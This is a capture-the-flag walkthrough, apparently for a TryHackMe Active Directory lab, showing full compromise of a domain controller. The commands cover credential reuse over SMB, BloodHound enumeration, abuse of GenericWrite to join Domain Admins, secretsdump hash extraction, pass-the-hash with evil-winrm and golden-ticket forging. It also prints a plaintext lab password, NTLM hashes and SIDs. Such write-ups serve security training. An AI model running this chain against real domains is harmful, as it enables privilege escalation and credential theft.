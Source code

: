 # DC.TRYHACKME.LOC

## Machine Information

Domain User from WRK machine: `svc.callback : qvBVAj9avM3ykcbf9s`&#x20;



## Access via SMB with owned user

With discovered user in the WRK machine we can authenticate in the DC with SMB.

```bash
proxychains nxc smb 10.200.150.10 -u "svc.callback" -p 'qvBVAj9avM3ykcbf9s'
```

<figure><img src="../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Lateral Movement

### Bloodhound Enumeration

Get information through the ingest

{% code overflow="wrap" %}
```bash
proxychains bloodhound-python -c all -ns 10.200.150.10 -dc DC.TRYHACKME.LOC -d TRYHACKME.LOC --zip -u 'svc.callback@TRYHACKME.LOC' -p 'qvBVAj9avM3ykcbf9s'
```
{% endcode %}

Checking the LDAP data in Bloodhound interface, notice that the user `SVC.CALLBACK` has `GenericWrite` privileges to `Domain Admins` group.

<figure><img src="../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>



### GenericWrite priv to Domain Admins

With this privileges we can add a user to Domain Admins group

{% code overflow="wrap" %}
```bash
proxychains net rpc group addmem "Domain Admins" "SVC.CALLBACK" -U "TRYHACKME.LOC"/"SVC.CALLBACK"%"qvBVAj9avM3ykcbf9s" -S "DC.TRYHACKME.LOC"
```
{% endcode %}

Now check if the user was successfully added to the Domain Admins Group

{% code overflow="wrap" %}
```bash
proxychains net rpc group members "Domain Admins" -U "TRYHACKME.LOC"/"SVC.CALLBACK"%"qvBVAj9avM3ykcbf9s" -S "DC.TRYHACKME.LOC"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>



## Dump credentials with Impacket

With impacket-secretsdump tool dump credentials.

{% code overflow="wrap" %}
```bash
proxychains impacket-secretsdump TRYHACKME.LOC/"SVC.CALLBACK":"qvBVAj9avM3ykcbf9s"@DC.TRYHACKME.LOC
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>



## Access to DC as Administrator

Using evil-winrm tool an attacker can get access to a Remote Powershell shell as Administrator using the NTLM dumped.

{% code overflow="wrap" %}
```bash
proxychains evil-winrm -i DC.TRYHACKME.LOC -u 'Administrator' -H '581832e2ee43f9b866f4a3dcaf63a0e0'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>



## Golden Ticket&#x20;

```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:399b08294203eeafef6c1ec6d5747127:::
```

FQDN: DC.tryhackme.loc

Domain SID: S-1-5-21-1966530601-3185510712-10604624

Enterprise admin sid: S-1-5-21-1966530601-3185510712-10604624-519

Administrator user sid: S-1-5-21-1966530601-3185510712-10604624-500

### Forge ticket

{% code overflow="wrap" %}
```
proxychains impacket-ticketer -nthash "399b08294203eeafef6c1ec6d5747127" -domain-sid "S-1-5-21-1966530601-3185510712-10604624" -domain "TRYHACKME.LOC" "Administrator" -groups 519 -user-id 500
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>



## Machine Flag

To demostrate that we have compromised this machine, get the machine's flag.

```
more C:\flag.txt

THM{6ab86ae6-631e-4342-85a1-b104ffe45ea7}
```

